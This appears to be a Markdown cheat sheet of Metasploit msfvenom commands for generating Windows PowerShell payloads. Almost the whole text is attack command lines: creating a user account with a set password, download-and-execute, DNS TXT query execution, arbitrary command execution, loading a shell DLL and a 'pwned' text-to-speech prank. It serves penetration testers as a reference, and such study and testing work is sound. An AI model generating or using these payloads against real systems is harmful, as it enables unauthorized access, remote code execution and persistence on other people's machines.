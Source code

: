 # Exec Payloads

## Add User

`$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw`

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec -f raw`

## Download and Execute

`$ msfvenom -p cmd/windows/powershell/download_exec`

## DNS TXT Query Exec

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>`

## Execute

`$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

### Text-To-Speech

`$ msfvenom -p cmd/windows/powershell/speak_pwned`